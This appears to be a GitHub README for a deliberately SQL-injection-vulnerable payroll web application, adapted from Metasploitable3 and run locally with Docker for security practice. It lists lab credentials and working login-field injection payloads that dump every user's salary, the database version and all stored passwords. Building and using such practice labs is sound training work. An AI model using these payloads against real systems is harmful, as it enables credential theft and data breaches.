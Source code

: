 # startrek_payroll

A simple SQL injection vulnerable web application powered by Docker

## Project Summary

This is a simple web application that is vulnerable to SQL injection attacks. The web application is based on the `payroll_app` from the [Metasploitable3 project](https://github.com/rapid7/metasploitable3), and the PHP code is taken (almost) directly from that project. The primary contribution of this project is a Docker environment using docker-compose and consisting of Nginx, PHP and MySQL containers to run the web application easily.

## Lancement


docker-compose up --env-file .env -d

Open web browser and visit:

- `http://localhost:8080`


## Example Payloads

1. Normal login to get users salary:
    - `username`: `james_kirk`
    - `password`: `kobayashi_maru`

2. Dump username and salary of all users:
    - `username`: `' OR 1=1#`
    - `password`: `anythingyouwant`

3. Dump MySQL version:
    - `username`: `' UNION SELECT null,@@version#`
    - `password`: `anythingyouwant`

4. Dump all users passwords:
    - `username`: `' UNION SELECT username,password FROM users#`
    - `password`: `anythingyouwant`

5. Dump all users informations:
   - `username`: `' UNION SELECT username,password FROM users UNION SELECT first_name,last_name FROM users#`
   - `password`: `anythingyouwant`